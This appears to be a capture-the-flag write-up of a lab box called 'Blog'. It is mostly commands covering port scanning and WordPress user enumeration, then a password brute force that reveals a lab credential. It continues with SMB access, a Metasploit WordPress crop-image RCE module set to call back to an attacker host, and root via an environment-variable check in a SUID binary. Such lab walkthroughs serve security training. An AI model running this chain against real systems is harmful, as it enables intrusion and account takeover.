




# Blog

## Enumeration

### Nmap

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn  10.10.135.66 -oN allPort.txt
```

```bash
nmap -sC -sV -p22,80,139,445 -Pn 10.10.135.66 -oN targeted.txt

PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 57:8a:da:90:ba:ed:3a:47:0c:05:a3:f7:a8:0a:8d:78 (RSA)
|   256 c2:64:ef:ab:b1:9a:1c:87:58:7c:4b:d5:0f:20:46:26 (ECDSA)
|_  256 5a:f2:62:92:11:8e:ad:8a:9b:23:82:2d:ad:53:bc:16 (ED25519)
80/tcp  open  http        Apache httpd 2.4.29 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/wp-admin/
|_http-title: Billy Joel&#039;s IT Blog &#8211; The IT blog
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-generator: WordPress 5.0
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
Service Info: Host: BLOG; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_nbstat: NetBIOS name: BLOG, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: blog
|   NetBIOS computer name: BLOG\x00
|   Domain name: \x00
|   FQDN: blog
|_  System time: 2024-09-20T22:55:46+00:00
| smb2-time: 
|   date: 2024-09-20T22:55:46
|_  start_date: N/A
```

### HTTP

```bash
whatweb http://10.10.135.66
```




```bash
gobuster dir -u http://blog.thm/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -t 20 php,js,html,txt
```


```bash
http://blog.thm/robots.txt
```


```bash
wpscan --url http://10.10.75.249 -e vp,u 
```



usuarios: 
- bjoel
- kwheel


```bash
wpscan --url http://10.10.75.249 -U kwheel -P /usr/share/wordlists/rockyou.txt
```



| User | Password |
|---|---|
| kwheel | cutiepie1 |

### SMB

```bash
smbclient -L 10.10.75.249 -N
```


```bash
netexec smb 10.10.75.249  -u kwheel -p cutiepie1 --shares
crackmapexec smb 10.10.75.249  -u kwheel -p cutiepie1 --shares

smbclient //10.10.75.249/BillySMB -U kwheel
```


## Exploit


```bash
use exploit/multi/http/wp_crop_rce

set USERNAME kwheel
set PASSWORD cutiepie1
set RHOSTS blog.thm
set LHOST 10.9.244.36
```




## Privilege Escalation

```bash
find / -perm -4000 -ls 2>/dev/null
```


```bash
ltrace /usr/sbin/checker

echo $admin
export admin=true
/usr/sbin/checker

whoami
root
```


```bash
find / -type f -name user.txt
```


